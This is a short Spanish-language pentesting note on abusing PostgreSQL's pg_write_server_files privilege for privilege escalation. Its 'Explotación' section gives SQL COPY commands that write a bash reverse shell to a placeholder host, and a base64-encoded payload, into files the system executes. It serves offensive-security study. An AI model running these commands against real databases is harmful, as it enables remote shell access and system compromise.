 -----
- Tags: #teoria #practica #escalada 
------
# Abuso de permisos de escirutas en sistemas de Gestion de Base de Datos

El abuso de privilegios de escritura es un tema imporante en la seguridad e baeses de datos, ya que los usuarios malintencionados pueden aprovechar estos privilegios para manipular o dañar datos, insertar información maliciosa o incluso obtener acceso no autorizado al sitema. Aunque los nombres específicos de los permissos pueden variar entre diferentes sistemas de base de datos, el concepto de abuso es relevante en todos ellos.
-----
# Explotación 

Por ejemplo, en **PostgreSQL** existe un privilegio denominado **pg_write_server_files** el cual como mencionamos permite al usuario que lo posee la manipulación de archivos existentes, lo que podría suponer un riesgo de cara a la seguridad y un punto crucial de interes para el atacante.

Esto de podría utilizar para depositar claves ssh en los repositorios ssh del usuario, ingresar código malicioso en archivos que se ejecutan a nivel de sistema o incluso ejecutar comandos a nivel de sistema.

```sql
-- Insertar líneas de código en un determinado archivo
COPY (SELECT CAST('bash -i >& /dev/tcp/{host}/{port} 0>&1' AS text)) TO '/path/to/executing/code';

-- Insertar líneas de código de manera alterna
copy (SELECT convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) TO '/just/a/path.exec';
```
Más detalles del abuso de estos privilegios pueden ser encontrados en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).